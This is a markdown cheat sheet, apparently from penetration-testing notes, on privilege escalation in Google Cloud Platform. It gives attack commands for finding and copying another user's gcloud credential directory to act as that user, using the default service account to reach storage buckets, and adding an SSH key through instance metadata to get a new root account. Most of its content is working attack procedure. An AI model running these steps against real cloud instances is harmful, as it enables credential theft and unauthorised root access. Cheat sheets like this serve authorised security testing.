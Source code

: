 # Privilege Escalation
- Google Cloud Platform has 2 user types
  - User Accounts 
    - Traditional user access with password 
  - Service Accounts 
    - Don’t have passwords 
    - Every GCP project has a “Default” service account
    - Default will get bound to instances if no other is set
    - EVERY process running on the instance can authenticate as the service account
- Got shell on a compute instance?
- The default service account can access EVERY storage bucket in a project

## Execute commands on vm's
- Can connect with gcloud ssh command, command can be retrieved from the portal in VM instances, remote access --> View gcloud command, looks like:
```
gcloud beta compute ssh --zone "us-east1-b" "test-instance-1" --project "test-gcloud-project"
```

## Getting credentials
#### Look for Gcloud credentials
- Gcloud stores creds in ~/.config/gcloud/credentials.db
```
sudo find /home -name "credentials.db
```

### Auth as compromised user
- Copy gcloud dir to your own home directory to auth as the compromised user
```bash
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

## Bucket access
#### Check if user has default service account access
- Look for the standard default service account name that look like: 
  - PROJECT_NUMBER-compute@developer.gserviceaccount.com
  - PROJECT_ID@appspot.gserviceaccount.com
- Use service account to access buckets looking for other creds or sensitive data
```
gcloud config list
```

## Metadata server
- Metadata  endpoint on instances at 169.254.169.254
- Any public SSH keys in the metadata server get an account with root access setup
- If you can set a public key on the metadata server it will setup a brand new Linux account for you on the instance
- Need default perms set to “full access to Cloud APIs” or compute API access
  - Or… custom IAM perms: 
    - compute.instances.setMetadata
    - compute.projects.setCommonInstanceMetadata

### Create SSH key for a new username
```
ssh-keygen -t rsa -C "<USER>" -f ./<FILENAME>.key -P ""
```

#### Copy the username and key data into a file called metadata.txt in the following format:
```
<USERNAME>:<public key data in usernamekey.pub>
```

#### Update the instance metadata
```
gcloud compute instances add-metadata <instance name> --metadata-from-file ssh-keys=metadata.txt
```

- Now when the daemon runs it will add a new user with root privileges. Use your newly generated SSH key to SSH in.
